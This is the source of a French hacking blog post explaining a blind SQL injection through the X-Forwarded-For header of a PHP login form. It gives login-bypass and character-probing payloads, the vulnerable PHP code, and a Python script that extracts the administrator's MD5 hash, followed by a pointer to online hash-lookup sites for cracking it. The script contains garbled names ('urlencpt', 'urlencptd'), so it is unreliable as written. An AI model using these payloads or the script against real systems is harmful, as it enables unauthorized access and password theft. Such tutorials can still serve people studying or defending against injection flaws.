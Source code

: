 ```yaml
---
layout: post
title: Blind SQL injection via un header HTTP
description: Cet article présente une façon originale d'exploiter une faille de type injection SQL.
categories: hacking
tags: [blind sqlinjection, header http]
photo: sqli_http_header.png
comments: true
---
```


Cet article présente une façon originale d'exploiter une faille de type injection SQL. La faille se trouve dans un formulaire d'identification et plus précisément dans le code PHP qui ne contrôle pas tous les paramètres de la requête SQL.

Le code PHP est le suivant :

{% highlight php %}
<?php
$req = mysql_query("SELECT login,pwd FROM administrators
                    WHERE login='".sanitize($_POST['login'])."'
                    AND pwd='".md5($_POST['password'])."'
                    AND ip='".ip()."'");
?>
{% endhighlight %}

La variable login est correctement contrôlée grâce à la fonction _sanitize()_ :

{% highlight php %}
<?php
function sanitize($param){
    if (is_numeric($param)){
    	return $param;
	}
	else{
		return mysql_real_escape_string($param);
	}
}
?>
{% endhighlight %}

Et le mot de pass est directement converti en MD5, rien à faire de ce coté là. Intéressons nous au paramète "IP" et plus particulièrement à la fonction ip()_.

{% highlight php %}
<?php
function ip(){
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    }
	else{
		$ip = $_SERVER["REMOTE_ADDR"];
    }

	if (preg_match("#^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}#",$ip)){
		return $ip;
	}
	else{
		return $_SERVER["REMOTE_ADDR"];
	}
}
{% endhighlight %}

On remarque que la récupération de l'adresse ip repose sur un header HTTP _X_FORWARDED_FOR_ et que le seul contrôle effectué est un _preg_match_ qui permet de vérifier que le paramètre contient bien au moins une adresse ip. Il est alors possible d'injecter du code SQL dans le header HTTP afin de bypasser l'identification voir même d'extraire les informations de la BDD.

En modifiant le header par :

    127.0.0.1' or 1=1#

La requête est forcément vraie et on se retrouve identifié \o/

De la même manière on va pouvoir récupérer le password de l'administrateur, en effet lorsque la requete est fausse la page affiche "Mot de passe incorrect", en effectuant une [blind SQL injection](http://www.ghostsinthestack.org/article-11-blind-sql-injections.html) il est possible de retrouver le mot de passe caractère par caractère, exemple :

    127.0.0.1' or ascii(substring(pwd,1,1))=48#

Si la requête est vraie et donc que l'on se retrouve identifié alors cela veut dire que le premier caractère du mot de passe est "0" (48 en ascii)

J'ai écrit un petit script en python (mon premier) qui permet d'automatiser tout cela :

{% highlight python %}
import httplib
import urllib
import re

password = ""

md5 = ['0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f']
cpt = 0
i = 1

while i<=32:

	print 'Recherche du caractère '+str(i)
	if cpt == 16:
		cpt = 0

	print 'Test caractere : '+md5[cpt]
	params = urllib.urlencpt({'login': 'admin', 'pwd': 'password'})
	headers = {"Content-type": "application/x-www-form-urlencptd",
               "Accept": "text/plain",
               "x-forwarded-for":"127.0.0.1' or ascii(substring(pwd,"+str(i)+",1))="+str(ord(md5[cpt]))+"#"}
	conn = httplib.HTTPConnection("www.site.com:80")
	conn.request("POST", "/index.php", params, headers)
	response = conn.getresponse()
	print response.status, response.reason
	data = response.read()
	conn.close()

	if not(re.search('incorrect',data)):
		print 'Caractère trouvé : '+md5[cpt]
		password += md5[cpt]
		i += 1
		cpt = 0
	else:
		cpt += 1

print 'MD5 = '+str(password)
{% endhighlight %}

Et voila on trouve le hash et un passage par [cmd5.org](http://www.cmd5.org/) ou par [md5decrypter.co.uk](http://www.md5decrypter.co.uk/) nous donne la correspondance. Si vous avez des questions, commentaires n'hésitez pas.